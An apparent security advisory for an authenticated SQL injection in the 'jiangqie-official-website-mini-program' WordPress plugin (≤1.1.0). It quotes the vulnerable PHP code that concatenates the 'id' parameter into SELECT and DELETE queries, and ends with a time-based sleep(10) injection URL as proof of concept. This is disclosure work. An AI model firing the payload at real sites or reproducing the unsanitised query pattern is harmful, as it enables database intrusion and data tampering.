

# jiangqie-official-website-mini-program <=**1.1.0** - Authenticated SQL Injection

## Description

```
The plug-in menu C available by the administrator user uses the ID GET parameter and used it in the SQL statement without proper cleaning, authentication, or escape, thereby causing the SQL injection problem.
```

## Affects Plugins

```
jiangqie-official-website-mini-program <=1.1.0 (the latest version at this time)
https://wordpress.org/plugins/jiangqie-official-website-mini-program/
```

## Author

```
Ja9er@webray.com.cn inc 
```

## Detail

```
The issue is occured at file jiangqie-official-website-mini-program /includes/jiangqie-ow-free-feedback.php. When the parameter $id not null and $action equal 'detail' , the parameter id is derectly used by mysql
```

```php
function jiangqie_ow_free_render_feedback()
{
	$action = (isset($_GET['action'])) ? sanitize_text_field(wp_unslash($_GET['action'])) : '';

	if ($action == 'detail') {
		global $wpdb;

		$feedback_id = (isset($_GET['id'])) ? sanitize_text_field(wp_unslash($_GET['id'])) : '';

		if ($feedback_id) {
			$feedback = $wpdb->get_row("SELECT * FROM {$wpdb->prefix}jiangqie_ow_feedback WHERE id=$feedback_id", ARRAY_A);
?>
			<h1>留言信息</h1>
			<table class="form-table">
				<tr>
					<th><label>ID</label></th>
					<td><?php echo $feedback['id']; ?></td>
				</tr>
				<tr>
					<th><label>姓名</label></th>
					<td><?php echo $feedback['username']; ?></td>
				</tr>
				<tr>
					<th><label>电话</label></th>
					<td><?php echo $feedback['phone']; ?></td>
				</tr>
				<tr>
					<th><label>E-mail</label></th>
					<td><?php echo $feedback['email']; ?></td>
				</tr>
				<tr>
					<th><label for="content">内容</label></th>
					<td><textarea id="content" name="content" rows="5" cols="30" class="regular-text"><?php echo $feedback['content']; ?></textarea></td>
				</tr>
				<tr>
					<th><label>时间</label></th>
					<td><?php echo date('Y-m-d H:i:s', $feedback['createtime']); ?></td>
				</tr>
			</table>
		<?php
		}
	} else {
		if ($action == 'delete') {
			global $wpdb;

			$feedback_id = (isset($_GET['id'])) ? sanitize_text_field(wp_unslash($_GET['id'])) : '';

			if ($feedback_id) {
				$wpdb->query("DELETE FROM {$wpdb->prefix}jiangqie_ow_feedback WHERE id=$feedback_id");
			}
		}
		$owFeedbackList = new JiangQieOwFreeFeedbackList();

		$search = (isset($_GET['s'])) ? sanitize_text_field(wp_unslash($_GET['s'])) : '';

		$owFeedbackList->prepare_items($search);
		?>
		<div class="wrap">
			<h1><?php echo esc_html(get_admin_page_title()); ?></h1>

			<form method="get">
				<input type="hidden" name="page" value="<?php echo esc_html($_REQUEST['page']); ?>" />
				<?php $owFeedbackList->search_box('搜索', 'search_id'); ?>
			</form>

			<form id="movies-filter" method="get">
				<input type="hidden" name="page" value="<?php echo esc_html($_REQUEST['page']); ?>" />
				<?php $owFeedbackList->display() ?>
			</form>
		</div>
<?php
	}
}

```

## Proof of Concept

http://localhost/wordpress/wp-admin/admin.php?page=jiangqie_ow_free_feedback&action=detail&id=1+and+sleep(10)--+&_wpnonce=a67a10a170



